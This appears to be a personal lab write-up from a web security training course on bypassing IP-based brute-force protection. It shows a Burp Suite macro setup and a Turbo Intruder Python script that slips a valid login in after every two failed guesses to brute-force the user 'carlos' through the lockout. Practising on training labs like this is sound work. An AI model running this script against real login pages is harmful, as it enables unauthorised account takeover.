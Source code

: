 Authentication is the process of verifying the identity of a user or client. Websites are potentially exposed to anyone who is connected to the internet. This makes robust authentication mechanisms integral to effective web security.
# Lab: Broken brute-force protection, IP block
## Macro 
So the lab let's you try wrong creds 3 times and blocks your IP for 1 min for the 4th time.
`Incorrect attempt` > `Incorrect attempt` >`Incorrect attempt` > **Block for 1 min**....

`Incorrect attempt` >`Incorrect attempt` > Correct attempt >`Incorrect attempt` >`Incorrect attempt`> Correct attempt >`Incorrect attempt` >`Incorrect attempt`

so with this technique, we can bypass the brute force protection.
Go to Proxy Setting-> Sessions -> Session Handling rules.
> **NOTE:** I've already added the rule in the image below
![[file-20250806194125516.png]]

After clicking on **Add**, select Run a Macro, and the **Add** the successful login attempt in the **Macro Recorder** which is `wiener:peter` 
![[file-20250806194309791.png]]
After clicking `OK`, now make sure the scope applies to all the tools and URLs
![[file-20250806194748989.png]]
Now in Intruder, give the correct username `carlos` along with random password.
Set payloads and resource pool to make sure only `one` request is sent.
![[file-20250806193814583.png]]
![[file-20250806193526816.png]]
## Turbo Intruder
```Python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False,
                           engine=Engine.THREADED
                           )
    
    valid_username = "wiener"   
    valid_password = "peter"      
    target_username = "carlos"   
    
   
    passwords = ["123456", "password", <SNIP>, "matthew", "access", "yankees", "987654321"]
    
    failed_count = 0
    
    engine.queue(target.req, [valid_username, valid_password])
    
    for password in passwords:
        engine.queue(target.req, [target_username, password])
        failed_count += 1
        
        if failed_count == 2:
            engine.queue(target.req, [valid_username, valid_password])
            failed_count = 0

def handleResponse(req, interesting):
    table.add(req)
```
![[file-20250806204834277.png]]